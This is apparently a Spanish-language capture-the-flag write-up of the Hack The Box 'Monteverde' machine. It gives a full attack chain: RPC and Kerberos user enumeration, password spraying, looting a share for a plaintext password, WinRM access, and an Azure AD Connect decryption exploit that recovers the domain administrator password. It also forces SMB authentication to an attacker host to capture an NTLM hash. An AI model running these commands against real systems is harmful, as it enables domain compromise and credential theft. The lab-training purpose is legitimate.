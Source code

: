 ```yaml
---
layout: single
title: Monteverde - Hack The Box
excerpt: "Tocamos directorio activo"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-monteverde/monteverde1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - AD
  - Windows 
  - RPC
  - Kerberos
  - Azure 
---
```


# 10.10.10.172 - Monteverde
![](/assets/images/htb-monteverde/monteverde1.png)

-------------------------
# Part 1: Reconocimiento inicial y obtención de credenciales

Puertos abiertos -> 88(kerberos), 135(rpc), 139, 464, 5985(winrm)  
Con crackmapexec podemos hacer un reconocimiento del dominio como sacar el nombre y sistema:  
```console
└─$ crackmapexec smb 10.10.10.172
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```

## Puerto 135 RPC:
Tenemos suerte y podemos tirar de una null session:  
```console
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomusers" | grep -oP "\[.*?\]" | grep -v "0x" | tr -d "[]" >> users.txt
# Una buena lista de usaurios
└─$ rpcclient -U "" 10.10.10.172 -N -c "enumdomgroups"
# Nos copiamos en un archivo de texto los grupos, ya que hay alguno interesante. No tenemos el clásico domain admins pero si Azure Admins
└─$ rpcclient -U "" 10.10.10.172 -N -c "querygroupmem 0xa29" 
# Los de Azure -> 0x1f4, 0x450, 0x641. EL problema esque si preguntamos por queryuser y uno nos da access denied
```

## Puerto 88 kerberos:  
```console
└─$ kerbrute userenum --dc 10.10.10.172 -d megabank.local users.txt
# Todos validos
└─$ /usr/bin/impacket-GetNPUsers megabank.local/ -no-pass -usersfile users.txt  
# Todos tienen el UF_DONT_REQUIRE_PREAUTH seteado, asi que nada de contraseñas.
```

## SMB - Crackmapexec  
Como no tenemos creds, se pueden sacar de maneras como el nombre de la máquina, o...    
El nombre del propio usaurio (u otro usuario por si son pareja). Un error como un piano.  
```console
└─$ crackmapexec smb 10.10.10.172 -u users.txt -p users.txt --continue-on-succes 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Probamos otro ultimo ataque por kerberos al conseguir creds:
```console
└─$ impacket-GetUserSPNs megabank.local/SABatchJobs:SABatchJobs -dc-ip 10.10.10.172 -request
# No hay suerte
```
---------------------------
# Part 2: Acceso al sistema

Seguimos con SMB. Voy mostrando los unicos lugares que no están vacíos    
```console
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs'
# Tenemos acceso a "azure_uploads", "IPC$", "NELOGON", "SYSVOL" y users$"" 
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r "users$"
# Hay varias carpetas "dgalanos", "mhope", "smorgan" y "roleary". Solo mhope tiene un archivo "azure.xml"
└─$ smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download "users$/mhope/azure.xml"
└─$ cat 10.10.10.172-users_mhope_azure.xml 
<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<S N="Password">4n0therD4y@n0th3r$</S>
```
El mhope este era uno de los usaurios que obtuvimos del RPC, y esta parece su contraseña.  
```console
└─$ crackmapexec smb 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
```
En efecto. Vuelvo a probar el GetUsersSPNs con estas nuevas creds pero tampoco. Con el smbmap no encuentro nada más que con la otra chica.  
```console
└─$ crackmapexec winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
WINRM       10.10.10.172    5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
└─$ evil-winrm -i 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'  
*Evil-WinRM* PS C:\Users\mhope\Documents>
```
Tras una enumeración con mi script de windows  
- Nuestro mhope pertenece a "Azure Admins" y "Domain Users"  
- Hay backups del SAM y system en C:\Windows\System32\config\  

---------------------------
# Part 3: Explotación de Azure AD

Al ser un dominio Azure está configurado de manera diferente, remota. Al ser algo instalado de fuera habría que mirar en "Program Files":  
```console
*Evil-WinRM* PS C:\Program Files> dir | findstr "Azure"
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

En este [articulo](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) hablan de uan vuln en Azure AD que permite obtener
las creds del Administrador subiendo dos archivos:  
- Habría que descargarse la [release](https://github.com/VbScrub/AdSyncDecrypt/releases/download/v1.0/AdDecrypt.zip) y subirla al sistema
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/mcrypt.dll
*Evil-WinRM* PS C:\Users\mhope\Desktop> upload /home/cucuxii/Maquinas/htb/Monteverde/AdDecrypt.exe
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Desktop\AdDecrypt.exe -FullSQL
Username: administrator
Password: d0m@in4dminyeah!
```

Ahora te podrias conectar como admin ```evil-winrm -i 10.10.10.172 -u 'administrator' -p 'd0m@in4dminyeah!'```

--------------------------------------
# Extra: Analizando la vuln de Azure

Investigué mas en profundidad esta vuln gracias a estos articulos: 
[Fuente](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)    
[FUente 2](https://blog.xpnsec.com/azuread-connect-for-redteam/)    
[Video](https://www.youtube.com/watch?v=JEIR5oGCwdg)    

El servicio "Azure AD Connect" conecta el directorio activo local con la plataforma de dominios de Azure. Dicho servicio, (para gestionar desde
Azure tu sistema) necesita credenciales de administrador. 
El zip que te descargas tiene estos dos programas que subes:   
- **AdDecrypt.exe** -> Las creds se sacan de una SQL llamada "ADSync" (tablas mms_management y mms_server) y se desencriptan.     
- **mcrypt.dll** -> Codigo en C# que se encarga de descenriptar lo sacado antes (DPAPI)  

Ivestigando el articulo de esa persona podemos navegar por las bases de datos que dice:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "select name from sys.databases"
master, tempdb, model, msdb, ADSync

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "xp_dirtree '\\10.10.14.12\carpeta'"
└─$ impacket-smbserver carpeta $(pwd) -smb2support

[*] MONTEVERDE$::MEGABANK:aaaaaaaaaaaaaaaa:51e2852a7fe64f40ec474fe257c9eec8:0101000000000000001e935bacfdd80160fc5fcc717a077e00000000010010005700460047007800730059006d005800030010005700460047007800730059006d00580002001000670074006d006d00790075006e00610004001000670074006d006d00790075006e00610007000800001e935bacfdd80106000400020000000800300030000000000000000000000000300000c42f279549204924bbc39fce074dc6fdd4df5f988eee2073af01708ebd8864090a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310032000000000000000000
```
Vemos que se ha enviado un hash por ahí que hemos interceptado, es decir alguien ( megabank.local) se ha autenticado contra alguien (Azure).  
Si vemos el script del artículo e intentamos replicar la query:  
```console
*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
Invalid object name 'mms_management_agent'

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select private_configuration_xml,encrypted_configuration from mms_management_agent"
 <forest-name>MEGABANK.LOCAL</forest-name>
 <forest-port>0</forest-port>
 <forest-guid>{00000000-0000-0000-0000-000000000000}</forest-guid>
 <forest-login-user>administrator</forest-login-user>
 <forest-login-domain>MEGABANK.LOCAL 8AAAAAgAAABQhCBBnwTpdfQE6uNJeJWGjvps08skADOJDqM74hw39rVWMWrQukLAEYpfquk2CglqHJ3GfxzNWlt9+ga+2wmWA0zHd3uGD8vk/vfnsF3p2aKJ7n9IAB51xje0QrDLNdOqOxod8n7VeybNW/1k+YWuYkiED3xO8Pye72i6D9c5QTzjTlXe5qgd4TCdp4fmVd+UlL/dWT/mhJHve/d9zFr2EX5r5+1TLbJCzYUHqFLvvpCd1rJEr68g

*Evil-WinRM* PS C:\Users\mhope\Desktop> sqlcmd -Q "use ADSync; select keyset_id,instance_id,entropy from mms_server_configuration"
keyset_id   instance_id                          entropy
          1 1852B527-DD4F-4ECF-B541-EFCCBFF29E31 194EC2FC-F186-46CF-B44D-071EB61F49CD
```

Obtenemos las dos cosas que necesita para obtener las credenciales.  La cadena "8AAAAAgAAABQhCBBnwTpdfQE6uNJe..." está en base 64, si se decodifica
salen caracteres sin sentido (que supongo que será el texto cifrado). Si le haces ```xxd -ps | xargs``` obtendrías todos los bytes. Esto se lo pasa al
**mcrypt.dll** que lo rompe.  

Mas detalles se escapan de mi entendimiento, pero al menos hemos sacado una idea de lo que está haciendo a grosso modo.  